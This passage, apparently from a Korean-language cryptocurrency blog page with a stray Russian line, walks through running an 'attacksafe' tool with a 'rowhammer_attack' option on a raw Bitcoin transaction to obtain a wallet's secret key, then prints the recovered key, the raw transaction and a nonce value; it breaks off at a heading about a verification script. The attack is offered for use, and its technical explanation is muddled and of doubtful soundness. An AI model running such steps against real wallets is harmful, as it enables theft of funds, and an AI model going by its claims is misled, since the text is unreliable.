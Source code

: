 

<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2><code>-tool rowhammer_attack</code>소프트웨어를 사용하여&nbsp;실행<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code>./attacksafe -tool rowhammer_attack -open RawTX.txt -save SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-154-1024x298.png" alt="서명 오류를 사용하여 Bitcoin 지갑에 대한 개인 키를 얻는 방법(Bitcoin에 대한 Rowhammer 공격)" class="wp-image-1278"/></figure>



<p>우리는 이 공격을 시작했고&nbsp;<code>-tool rowhammer_attack</code>그 결과는 파일에 저장되었습니다.<code>SecretKey.txt</code></p>



<p>이제 성공적인 결과를 보려면 파일을 엽니다.<code>SecretKey.txt</code></p>



<pre class="wp-block-code"><code>cat SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-155-1024x454.png" alt="서명 오류를 사용하여 Bitcoin 지갑에 대한 개인 키를 얻는 방법(Bitcoin에 대한 Rowhammer 공격)" class="wp-image-1280"/></figure>



<pre class="wp-block-code"><code>Deployments ECDSA:

SecretKey = 0x093bf9a5eb46ddeff6bcf94a326d00f89bc0ce6cbada4c5897758550eae10383

RawTX = 0100000001e4705464562efc76d90240841ff3ed91c8db0b58ee4666502cb0a35cd5611f990d0000006a4730440220682e6b2b855d9ca3e9e88a1ecf44cfe82461560c6c6db54c0c894e9c3e8b1e880220052dd955d1521081a2e48b1830ee17e3c3f75eaf5fdc9072905914f5872155b9012102083a0f1f4d81e74cb2903feccbaf82f7cb5cbeecafd178caefa2fa10d2dfe54dffffffff0158020000000000001976a914406840ebc10519e0934c739a83a2d51f70ff09ae88ac00000000</code></pre>



<p><code>"Deployments ECDSA"</code>우리는 비트코인 ​​블록체인 트랜잭션의 치명적인 취약점을 의미하는&nbsp;비문을 봅니다 .</p>



<p><code>SecretKey значение в формате HEX, это и есть наш секретный ключ "K" (NONCE):</code></p>



<p><code>K = 0x79aae6b77caa2bddd8e133f963bd236f71ff15dc9b50aa1d977bc4c44689edca</code></p>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2><em>파이썬</em>&nbsp;스크립트&nbsp;로 확인하자<code>point2gen.py</code></h2>

